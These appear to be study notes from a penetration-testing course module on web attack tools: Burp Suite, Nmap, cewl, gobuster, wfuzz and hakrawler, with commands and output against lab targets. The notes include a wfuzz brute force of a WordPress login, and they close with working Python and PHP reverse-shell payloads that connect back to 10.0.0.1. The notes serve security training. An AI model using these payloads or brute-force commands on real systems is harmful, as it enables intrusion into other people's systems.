

# Module 2: Tools (archived)

## Getting Started

### Accessing The Lab Machines

_Updated your /etc/hosts file for the labs. IPs change, make sure they're updated when they do._

### About Proxies

_The "middleman"._

## Burp Suite

### Burp Suite's Built-In Browser

_Proxy > Open Browser._

### Using Burp Suite with Other Browsers

_Proxy settings: 127.0.0.1 port 8080;_

### Proxy

_Proxy manages interception of web traffic._

Intercept:

* Forward: pass the web request along.
* Drop: discard this request.

HTTP History:

* Sort all pages visited and traffic forwarded in sequential order.

Options:

* Add/Edit/Delete proxy settings.
* Match & Replace to modify requests/responses .

### Intruder

Used for modifying request/responses to attack the target with payloads. ex. brute forcing a login page.&#x20;


These requests are throttled in the Community edition.


### Repeater

Replays requests/responses, allowing us to modify them for testing purposes.

Inspector is available inside the Repeater tab, allowing decoding as well as viewing various attributes and headers with ease.

### Extra Mile

_This is just the lab._

## Nmap

### Nmap Scripts

_List of scripts can be found at /usr/share/nmap/scripts/_.

Use the `-sC` or `--script` option for running scripts with the Nmap scripting engine (NSE).

### Extra Mile

_Doing the lab._

## Wordlists

### SecLists Installation

_Just apt install seclists._

### Choosing a Wordlist

SecLists are split up into categories, make yourself familiar with them.

### Building Custom Wordlists

_Cewl_ can be used to crawl a webpage, generating a wordlist. The `-d` switch can be used to set the depth of the crawl. The `-m` switch sets the minimum word length.&#x20;

_Example usage of cewl_


```bash
kali@kali:~$ sudo cewl -d 2 -m 5 -w ourWordlist.txt www.MegaCorpOne.com
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)

kali@kali:~$ ls -lsa ourWordlist.txt
4 -rw-r--r-- 1 root root 2788 Oct  9 23:24 ourWordlist.txt
```


## Gobuster

### Installing Gobuster & Basic Usage

_Just apt install gobuster._

### Endpoint Discovery with Gobuster

_Example usage of gobuster_


```bash
kali@kali:~$ gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt -t 5 -b 301
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://offsecwp:80/
[+] Method:                  GET
[+] Threads:                 5
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   301
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/09/07 17:19:44 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 273]
/.htaccess            (Status: 403) [Size: 273]
/.htpasswd            (Status: 403) [Size: 273]
/server-status        (Status: 403) [Size: 273]
/xmlrpc.php           (Status: 405) [Size: 42] 
...
```


### Go Bust Those Subdomains!

_Subdomain busting example_


```bash
kali@kali:~$ gobuster dns -d megacorpone.com -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 30
```


## Wfuzz

### File Discovery

_Fuzzing files with wfuzz_


```bash
kali@kali:~$ export URL="http://offsecwp:80/FUZZ"

kali@kali:~$ wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 301,404,403 "$URL"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://offsecwp/FUZZ
Total requests: 17128

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000028:   200        100 L    450 W      6798 Ch     "wp-login.php"
000000001:   301        0 L      0 W        0 Ch        "index.php"         
000000005:   405        0 L      6 W        42 Ch       "xmlrpc.php"        
000000122:   200        97 L     823 W      7345 Ch     "readme.html"        
000000198:   200        384 L    3177 W     19915 Ch    "license.txt"      
000000255:   200        0 L      0 W        0 Ch        "wp-config.php"   
000000289:   200        4 L      15 W       135 Ch      "wp-trackback.php"    
000000369:   500        0 L      0 W        0 Ch        "wp-settings.php"
000000371:   301        0 L      0 W        0 Ch        "."        
000000405:   200        0 L      0 W        0 Ch        "wp-cron.php" 
000000440:   200        0 L      0 W        0 Ch        "wp-blog-header.php"  
000000454:   200        11 L     23 W       221 Ch      "wp-links-opml.php"
000000830:   200        0 L      0 W        0 Ch        "wp-load.php"      
000001065:   302        0 L      0 W        0 Ch        "wp-signup.php"
000001499:   302        0 L      0 W        0 Ch        "wp-activate.php"                                                                                                 
Total time: 0
Processed Requests: 17128
Filtered Requests: 17113
Requests/sec.: 0
```



Leaving out the trailing forward slash ensures we're searching for files, not directories.

In some cases, a configuration item known as _mod\_rewrite_ is not enabled, and as a result, our trailing forward slash method might not work.



### Directory Discovery

_Directory discovery with wfuzz_


```bash
kali@kali:~$ export URL="http://offsecwp:80/FUZZ/"

kali@kali:~$ wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --hc 404,403,301 "$URL"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://offsecwp/FUZZ/
Total requests: 30000

=====================================================================
ID           Response   Lines    Word       Chars       Payload        
=====================================================================
000000013:   200        0 L      0 W        0 Ch        "wp-content"
000000020:   302        0 L      0 W        0 Ch        "wp-admin"  

Total time: 0
Processed Requests: 29990
Filtered Requests: 29987
Requests/sec.: 0
```


### Parameter Discovery

_Discovering hidden parameters_


```bash
kali@kali:~$ export URL="http://offsecwp:80/index.php?FUZZ=data"

kali@kali:~$ wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hc 404,301 "$URL"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://offsecwp/index.php?FUZZ=data
Total requests: 2588

=====================================================================
ID           Response   Lines    Word       Chars       Payload       
=====================================================================
000000031:   200        216 L    3219 W     38443 Ch    "s"
000000051:   200        258 L    3358 W     40363 Ch    "preview"
000001169:   200        4 L      15 W       135 Ch      "tb"           
Total time: 0
Processed Requests: 2588
Filtered Requests: 2585
Requests/sec.: 0
```


### Fuzzing Parameter Values

_Identifying the erroneous response size_


```bash
kali@kali:~$ wfuzz -c -z file,/usr/share/seclists/Usernames/cirt-default-usernames.txt --hc 404 http://offsecwp:80/index.php?fpv=FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://offsecwp:80/index.php?fpv=FUZZ
Total requests: 828

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000015:   301        0 L      0 W        0 Ch        "22222222"
000000035:   301        0 L      0 W        0 Ch        "APPLSYSPUB"
000000036:   301        0 L      0 W        0 Ch        "APPS"
000000034:   301        0 L      0 W        0 Ch        "APPLSYS"
000000003:   301        0 L      0 W        0 Ch        "$SRV"
000000038:   301        0 L      0 W        0 Ch        "AQ"
000000007:   301        0 L      0 W        0 Ch        "(created)"
...
```


_Clean output with no erroneus responses and a successful result_


```bash
kali@kali:~$ wfuzz -c -z file,/usr/share/seclists/Usernames/cirt-default-usernames.txt --hc 404,301 http://offsecwp:80/index.php?fpv=FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://offsecwp:80/index.php?fpv=FUZZ
Total requests: 828

=====================================================================
ID           Response   Lines    Word       Chars       Payload                         
=====================================================================
000000791:   200        0 L      1 W        12 Ch       "unix"                                   

Total time: 0
Processed Requests: 828
Filtered Requests: 827
Requests/sec.: 0
```



In the examples we've explored, it's important to note that we have only provided the _FUZZ_ keyword. If we were interested in fuzzing multiple parameters, we could include that parameter in our endpoint and supply the _FUZ2Z_ keyword where we wish to fuzz a second value.


### Fuzzing POST Data

<figure><figcaption><p>Sample POST Data Captured with Burp Suite</p></figcaption></figure>

_Fuzzing POST Data & Brute Forcing a Login Page_


```bash
kali@kali:~$ wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404 -d "log=admin&pwd=FUZZ" http://offsecwp:80/wp-login.php         

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://offsecwp:80/wp-login.php
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000013:   200        105 L    478 W      7201 Ch     "abc123"
000000012:   200        105 L    478 W      7201 Ch     "baseball"
000000010:   200        105 L    478 W      7201 Ch     "dragon"
000000011:   200        105 L    478 W      7201 Ch     "123123"
000000016:   200        105 L    478 W      7201 Ch     "letmein"
000000003:   200        105 L    478 W      7201 Ch     "12345678"
000000014:   200        105 L    478 W      7201 Ch     "football"
000000001:   200        105 L    478 W      7201 Ch     "123456"
000000007:   200        105 L    478 W      7201 Ch     "1234"
000000015:   200        105 L    478 W      7201 Ch     "monkey"
000000009:   200        105 L    478 W      7201 Ch     "1234567"
000000005:   200        105 L    478 W      7201 Ch     "123456789"
000000006:   200        105 L    478 W      7201 Ch     "12345"
000000008:   200        105 L    478 W      7201 Ch     "111111" 
...
```


_Suppressing the results with char size 7201_


```bash
kali@kali:~$ export URL="http://offsecwp:80/wp-login.php"

kali@kali:~$ wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404 -d "log=admin&pwd=FUZZ" --hh 7201 "$URL"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://offsecwp/wp-login.php
Total requests: 100000
=====================================================================
ID           Response   Lines    Word       Chars       Payload       
=====================================================================
000000002:   302        0 L      0 W        0 Ch        "password"  
```



With POST data, it might be useful to perform fuzzing attempts with an _authenticated_ session ID so we can observe results from an authenticated session's perspective.

To retrieve the cookies associated with an authenticated WordPress session we can intercept an authenticated request in Burp Suite, copy all the cookie values, and paste them into our Wfuzz command with the -b parameter.


### Extra Mile

_Doing a lab._

## Hakrawler

### Hakrawler Installation

_Just sudo apt install hakrawler._

### Hakrawler and the Wayback Machine

_Sample Output of Hakrawler on the megacorpone.com domain_


```bash
kali@kali:~$ echo "https://www.megacorpone.com/" > urls.txt

kali@kali:~$ cat urls.txt |./hakrawler
https://www.megacorpone.com/index.html
https://www.megacorpone.com/index.html
https://www.megacorpone.com/about.html
https://www.megacorpone.com/contact.html
http://support.megacorpone.com
http://www.megacorpone.com/jobs.html
http://intranet.megacorpone.com
https://www.megacorpone.com/about.html
https://www.megacorpone.com/about.html
https://www.megacorpone.com/about.html
http://admin.megacorpone.com/admin/index.html
http://intranet.megacorpone.com/pear/
http://mail.megacorpone.com/menu/
http://mail2.megacorpone.com/smtp/relay/
http://siem.megacorpone.com/home/
http://support.megacorpone.com/ticket/requests/index.html
http://syslog.megacorpone.com/logs/sys/view.php
https://www.megacorpone.com/about.html
http://test.megacorpone.com/demo/index.php
http://vpn.megacorpone.com/diffie-hellman/
http://www.megacorpone.com/aboutus.html
http://www.megacorpone.com/aboutus.html
http://www.megacorpone.com/aboutus.html
http://www2.megacorpone.com/test/newsite/index.php
http://www2.megacorpone.com/test/newsite/index.php
http://www2.megacorpone.com/test/newsite/index.php
http://admin.megacorpone.com/news/today.php
...
```


## Shells

### Web Technology

_The shell we hope to spawn relies on the correct web technology used._

### Choosing the Correct Shell

_Use the correct shell for the correct system._

### Payloads

_Example Python Reverse Shell Payload_


```python
import socket
import subprocess
import os
import pty;

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",80));os.dup2(s.fileno(),0)

os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

pty.spawn("/bin/bash")
```


_Example PHP Reverse Shell Payloads_


```php
php -r '$sock=fsockopen("10.0.0.1",80);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",80);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",80);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",80);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",80);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```


### Extra Mile

_Do the lab._
